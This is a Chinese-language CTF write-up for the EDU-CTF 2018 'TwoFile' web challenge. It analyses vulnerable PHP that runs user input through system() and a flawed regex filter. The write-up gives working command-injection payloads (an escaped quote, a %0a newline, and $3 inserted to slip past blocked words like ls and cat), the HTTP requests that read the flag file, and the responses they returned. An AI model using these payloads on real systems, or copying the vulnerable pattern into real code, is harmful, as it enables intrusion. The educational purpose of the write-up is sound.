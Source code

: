```yaml
---
uuid: efa4e0df-9f0f-4714-8406-dae5f5d51dd8
title: EDU-CTF 2018 - TwoFile
tags:
  - writeup 
  - web
  - php
categories:
  - Capture The Flag
  - EDU-CTF 2018
series: EDU-CTF 2018
date: 2019-02-01 00:00:00
updated: 2019-02-01 00:00:00
---
```


這題目寫起來很有趣，反斜線看到時覺得好像有問題，卻過一小時後才去確認有沒有問題，前面都在找其他的洞，非常失策

<!--more-->

# [正文]
題目有給 source code

{% codeblock source code lang:js line_number:true %}
<?php
highlight_file(__FILE__);

$file1 = $_GET["f1"];
$file2 = $_GET["f2"];

// WAF
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file1))
  $file1 = "";

if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file2))
  $file2 = "";

// Prevent injection
$file1 = '"' . $file1 . '"';
$file2 = '"' . $file2 . '"';

$cmd = "file $file1 $file2";
system($cmd);
{% endcodeblock %}

## Analysis
1. 觀察 source code，發現在最後會用 system 去執行 `file $file1 $file2`，且 `$file1`，`$file2`的內容會被雙引號包住來防止 injection，如果可以繞過 WAF 和雙引號，就可以控制 system 的內容！

2. 觀察 WAF，可以發現在 preg_match 的 regular expression 中有反斜線的漏洞
  {% codeblock lang:php first_line:7 %}
  // WAF
  if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file1))
    $file1 = "";

  if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|cat|sh|flag|find|grep|echo|w/is", $file2))
    $file2 = "";
  {% endcodeblock %}
  可以看到反斜線的 escape 為 `\\`，但是在 php 中要 escape 反斜線要四個 `\\\\`，這個錯誤會引發後面的 `\n` 也會出錯，`\\|\n` 在 string  escape 變成 `\|\n`，導致在 preg_match 中要 `|\n` 才會被 match 到。這樣就可以使用 {% label primary@反斜線 %} 和 {% label primary@換行符號 %}！
  {% note info %}
  ### Escape backslash in PHP
  根據 [PHP Manual](http://php.net/manual/en/regexp.reference.escape.php) 的說明，PHP 在建構 string 時會先 escape 反斜線一次，所以要表示一個反斜線，會變成 `\\`，在 preg_match 中 pattern 又會在 escape，所以會變成 `\\\\` 才能成功過濾反斜線。
  {% endnote %}

## Payload

知道可以使用反斜線和換行符號，那可以嘗試使用反斜線去 escape 雙引號，換行符號 (%0a) 來讓 system 以為有兩行命令 
{% codeblock lang:php line_number:false %}
$file1 = \
$file2 = %0als\

$cmd = "file "\" "%0als\""

// string escape, $cmd =>
"file "" "
ls""
{% endcodeblock %}

{% note warning %}
### 換行符號
這裡使用 `%0a` 當換行符號，主要是因為傳資料的時候會經過 http，會被 urlencode，%0a 就是 url 中的urlencode 換行符號，另外就是 %0a 本來就不會被 preg_match 批配到換行字元。
{% endnote %}

WAF pattern 的後半段有 `ls|cat|sh|flag|find|grep|echo|w`，這些簡單地用 $3 來 bypass 就好，例如 `ls` ==> `l$3s`

{% codeblock Http request lang:plain line_number:false %}
http://final.kaibro.tw:10002/
GET f1=\ f2=%0al$3s%20.%20\
" : cannot open `" ' (No such file or directory) .: flag index.php
GET f1=\ f2=%0al$3s%20fl$3ag%20\
" : cannot open `" ' (No such file or directory) flag: flag_15_here.txt
GET f1=\ f2=%0ac$3at%20fl$3ag/fl$3ag_15_here.txt%20\
" : cannot open `" ' (No such file or directory) FLAG{e4sy_w4f_byp4s5_0h_y4_XD__}
{% endcodeblock %}

FLAG: `FLAG{e4sy_w4f_byp4s5_0h_y4_XD__}`
